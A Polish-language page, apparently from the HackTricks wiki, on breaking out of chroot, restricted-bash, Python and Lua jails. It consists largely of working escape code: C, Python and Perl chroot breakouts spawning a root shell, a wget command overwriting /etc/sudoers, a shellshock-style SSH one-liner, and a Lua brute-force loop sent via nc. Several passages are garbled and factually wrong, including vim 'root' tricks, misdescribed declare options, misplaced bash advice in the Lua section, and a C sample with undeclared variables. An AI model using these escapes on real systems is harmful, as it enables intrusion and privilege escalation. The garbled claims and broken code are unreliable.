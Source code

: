 # Ucieczka z więzienia

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) **i** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repozytoriów github.**

</details>

## **GTFOBins**

**Szukaj w** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **czy możesz wykonać dowolny plik binarny z właściwością "Shell"**

## Ucieczki z Chroot

Z [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mechanizm chroot **nie ma na celu obrony** przed celowym manipulowaniem przez **uprzywilejowanych** (**root**) **użytkowników**. W większości systemów konteksty chroot nie są poprawnie stosowane i programy w chroocie **z wystarczającymi uprawnieniami mogą wykonać drugi chroot, aby się wydostać**.\
Zazwyczaj oznacza to, że aby uciec, musisz być rootem wewnątrz chroota.

{% hint style="success" %}
**Narzędzie** [**chw00t**](https://github.com/earthquake/chw00t) zostało stworzone do wykorzystania poniższych scenariuszy i ucieczki z `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Jeśli jesteś **rootem** wewnątrz chroota, **możesz uciec**, tworząc **inny chroot**. Dzieje się tak, ponieważ 2 chrooty nie mogą istnieć jednocześnie (w systemie Linux), więc jeśli utworzysz folder, a następnie **utworzysz nowy chroot** w tym nowym folderze będąc **na zewnątrz niego**, będziesz teraz **na zewnątrz nowego chroota** i tym samym znajdziesz się w systemie plików.

Dzieje się tak, ponieważ zazwyczaj chroot NIE przenosi twojego bieżącego katalogu roboczego do wskazanego, więc możesz utworzyć chroot, ale być na zewnątrz niego.
{% endhint %}

Zazwyczaj nie znajdziesz binarnego pliku `chroot` wewnątrz więzienia chroot, ale **możesz skompilować, przesłać i wykonać** plik binarny:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>

Perl jest językiem skryptowym, który może być używany do ucieczki z ograniczonego powłoki bash. Można to zrobić, wykorzystując funkcję system() w Perl, która pozwala na wykonanie poleceń systemowych. Aby to zrobić, należy utworzyć skrypt Perl, który wywołuje polecenie, które chcemy uruchomić w powłoce bash. Następnie, używając funkcji system(), wykonujemy ten skrypt Perl z powłoki bash, co pozwala nam na wykonanie polecenia z uprawnieniami użytkownika, który uruchomił skrypt Perl.

Oto przykładowy skrypt Perl, który wykonuje polecenie "whoami":

```perl
#!/usr/bin/perl
system("whoami");
```

Aby uruchomić ten skrypt Perl z powłoki bash, używamy następującego polecenia:

```bash
perl skrypt.pl
```

To spowoduje wykonanie polecenia "whoami" z uprawnieniami użytkownika, który uruchomił skrypt Perl.

</details>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Zapisany deskryptor pliku

{% hint style="warning" %}
To jest podobne do poprzedniego przypadku, ale w tym przypadku **atakujący przechowuje deskryptor pliku do bieżącego katalogu**, a następnie **tworzy chroot w nowym folderze**. Na koniec, ponieważ ma **dostęp** do tego **deskryptora pliku poza** chrootem, uzyskuje do niego dostęp i **ucieka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD można przekazywać przez Unix Domain Sockets, więc:

* Utwórz proces potomny (fork)
* Utwórz UDS, aby rodzic i potomek mogli się komunikować
* Uruchom chroot w procesie potomnym w innym folderze
* W procesie rodzica utwórz FD folderu, który znajduje się poza chroot nowego procesu potomnego
* Przekaż do procesu potomnego ten FD za pomocą UDS
* Proces potomny zmienia bieżący katalog na ten FD i ponieważ znajduje się poza chroot, ucieknie z więzienia
{% endhint %}

### &#x20;Root + Mount

{% hint style="warning" %}
* Zamontuj urządzenie root (/) w katalogu wewnątrz chroot
* Uruchom chroot w tym katalogu

To jest możliwe w systemie Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Zamontuj procfs w katalogu wewnątrz chroot (jeśli jeszcze nie jest zamontowany)
* Znajdź pid, który ma inną ścieżkę root/cwd, na przykład: /proc/1/root
* Uruchom chroot w tej ścieżce
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Utwórz Fork (proces potomny) i uruchom chroot w innym folderze głębiej w systemie plików, a następnie zmień bieżący katalog na ten folder
* Z procesu rodzica przenieś folder, w którym znajduje się proces potomny, do folderu poprzedzającego chroot procesu potomnego
* Ten proces potomny znajdzie się poza chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Kiedyś użytkownicy mogli debugować swoje własne procesy z procesu tego samego użytkownika... ale teraz domyślnie nie jest to możliwe
* W każdym razie, jeśli jest to możliwe, można użyć ptrace do debugowania procesu i wykonania w nim shellcode'u ([zobacz ten przykład](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Wyliczanie

Uzyskaj informacje na temat więzienia:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modyfikacja PATH

Sprawdź, czy możesz zmodyfikować zmienną środowiskową PATH.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Używanie vim

W przypadku, gdy jesteś ograniczony do korzystania z powłoki bash, ale masz dostęp do edytora vim, istnieje kilka sposobów na uniknięcie tych ograniczeń i uzyskanie większych uprawnień.

#### 1. Uruchomienie polecenia z uprawnieniami roota

Możesz uruchomić polecenie z uprawnieniami roota, korzystając z funkcji `:!`. Na przykład, aby uruchomić polecenie `id` jako root, wpisz `:!id`.

#### 2. Uruchomienie powłoki z uprawnieniami roota

Możesz uruchomić powłokę z uprawnieniami roota, korzystając z funkcji `:shell`. Wpisanie `:shell` spowoduje otwarcie nowej powłoki, w której będziesz miał większe uprawnienia. Aby wrócić do vim, wpisz `exit`.

#### 3. Wykonanie poleceń z uprawnieniami roota w trybie wsadowym

Możesz wykonywać polecenia z uprawnieniami roota w trybie wsadowym, korzystając z funkcji `:w !sudo tee %`. Na przykład, aby zapisać plik jako root, wpisz `:w !sudo tee %`.

#### 4. Wykonanie poleceń z uprawnieniami roota w trybie wsadowym bez hasła

Jeśli masz uprawnienia do wykonywania poleceń jako root bez podawania hasła, możesz skorzystać z funkcji `:w !sudo -S tee %`. Wpisanie `:w !sudo -S tee %` spowoduje zapisanie pliku jako root bez konieczności podawania hasła.

#### 5. Wykonanie dowolnego polecenia

Możesz wykonywać dowolne polecenia, korzystając z funkcji `:!<command>`. Na przykład, aby uruchomić polecenie `ls -la`, wpisz `:!ls -la`.

#### 6. Wykonanie dowolnego polecenia i wstawienie wyniku do pliku

Możesz wykonywać dowolne polecenia i wstawiać wynik do pliku, korzystając z funkcji `:r !<command>`. Na przykład, aby wstawić wynik polecenia `ls -la` do pliku, wpisz `:r !ls -la`.

#### 7. Wykonanie dowolnego polecenia i wstawienie wyniku do bieżącego pliku

Możesz wykonywać dowolne polecenia i wstawiać wynik do bieżącego pliku, korzystając z funkcji `:r !<command>`. Na przykład, aby wstawić wynik polecenia `ls -la` do bieżącego pliku, wpisz `:r !ls -la`.

#### 8. Wykonanie dowolnego polecenia i wstawienie wyniku do nowej linii

Możesz wykonywać dowolne polecenia i wstawiać wynik do nowej linii, korzystając z funkcji `:put=system('<command>')`. Na przykład, aby wstawić wynik polecenia `ls -la` do nowej linii, wpisz `:put=system('ls -la')`.

#### 9. Wykonanie dowolnego polecenia i wstawienie wyniku jako tekst

Możesz wykonywać dowolne polecenia i wstawiać wynik jako tekst, korzystając z funkcji `:let @a = system('<command>')`. Na przykład, aby wstawić wynik polecenia `ls -la` jako tekst, wpisz `:let @a = system('ls -la')`, a następnie wstaw tekst, używając polecenia `"+p`.

#### 10. Wykonanie dowolnego polecenia i wstawienie wyniku jako nowy bufor

Możesz wykonywać dowolne polecenia i wstawiać wynik jako nowy bufor, korzystając z funkcji `:new | r !<command>`. Na przykład, aby wstawić wynik polecenia `ls -la` jako nowy bufor, wpisz `:new | r !ls -la`.
```bash
:set shell=/bin/sh
:shell
```
### Utwórz skrypt

Sprawdź, czy możesz utworzyć plik wykonywalny o zawartości _/bin/bash_.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Uzyskaj dostęp do basha przez SSH

Jeśli uzyskujesz dostęp za pomocą SSH, możesz skorzystać z tego triku, aby uruchomić powłokę bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Zadeklaruj

```bash
declare [-aAfFgilnrtux] [-p] [name[=value] ...]
```

Komenda `declare` służy do deklarowania zmiennych i funkcji w powłoce Bash. Może być używana do tworzenia nowych zmiennych, nadawania wartości istniejącym zmiennym, a także do deklarowania funkcji.

Opcje:
- `-a` - deklaruje zmienną jako tablicę
- `-A` - deklaruje zmienną jako tablicę asocjacyjną
- `-f` - deklaruje zmienną jako funkcję
- `-F` - deklaruje zmienną jako funkcję tylko do odczytu
- `-g` - deklaruje zmienną jako globalną
- `-i` - deklaruje zmienną jako liczbę całkowitą
- `-l` - deklaruje zmienną jako zmienną lokalną
- `-n` - deklaruje zmienną jako tylko do odczytu
- `-r` - deklaruje zmienną jako tylko do odczytu
- `-t` - deklaruje zmienną jako tablicę związanych zadaniami
- `-u` - deklaruje zmienną jako tylko do odczytu
- `-x` - deklaruje zmienną jako eksportowaną

Opcja `-p` wyświetla wartości wszystkich zmiennych zadeklarowanych w bieżącej powłoce.
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Możesz nadpisać na przykład plik sudoers.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Inne sztuczki

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Może być również interesująca strona:**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Więzienia Pythona

Sztuczki dotyczące ucieczki z więzień Pythona znajdują się na następującej stronie:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Więzienia Lua

Na tej stronie znajdziesz globalne funkcje, do których masz dostęp wewnątrz Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval z wykonaniem polecenia:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Kilka sztuczek, aby **wywoływać funkcje biblioteki bez użycia kropek**:

1. Użyj polecenia `source` lub kropki (`.`) do załadowania biblioteki do bieżącego środowiska powłoki. Na przykład, jeśli biblioteka nazywa się `libexample.so`, wykonaj następujące polecenie:
   ```bash
   source libexample.so
   ```
   lub
   ```bash
   . libexample.so
   ```

2. Wykorzystaj polecenie `declare` do zadeklarowania funkcji z biblioteki jako funkcji bieżącego środowiska powłoki. Na przykład, jeśli funkcja nazywa się `example_function` w bibliotece `libexample.so`, wykonaj następujące polecenie:
   ```bash
   declare -f example_function
   ```

3. Użyj polecenia `eval` do wykonania funkcji z biblioteki. Na przykład, jeśli funkcja nazywa się `example_function` w bibliotece `libexample.so`, wykonaj następujące polecenie:
   ```bash
   eval example_function
   ```

Pamiętaj, że te techniki mogą być użyteczne w przypadku, gdy nie masz dostępu do pełnej ścieżki do biblioteki lub gdy chcesz uniknąć użycia kropek w celu wywołania funkcji.
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Wylicz funkcje biblioteki:
```bash
for k,v in pairs(string) do print(k,v) end
```
Zauważ, że za każdym razem, gdy wykonasz powyższą jednoliniową komendę w **innym środowisku Lua, kolejność funkcji się zmienia**. Dlatego jeśli musisz wykonać konkretną funkcję, możesz przeprowadzić atak brute force, ładować różne środowiska Lua i wywoływać pierwszą funkcję biblioteki "le":
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Uzyskaj interaktywną powłokę lua**: Jeśli znajdujesz się w ograniczonej powłoce lua, możesz uzyskać nową powłokę lua (i miejmy nadzieję nieograniczoną) wykonując poniższe polecenie:
```bash
debug.debug()
```
## Odwołania

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slajdy: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
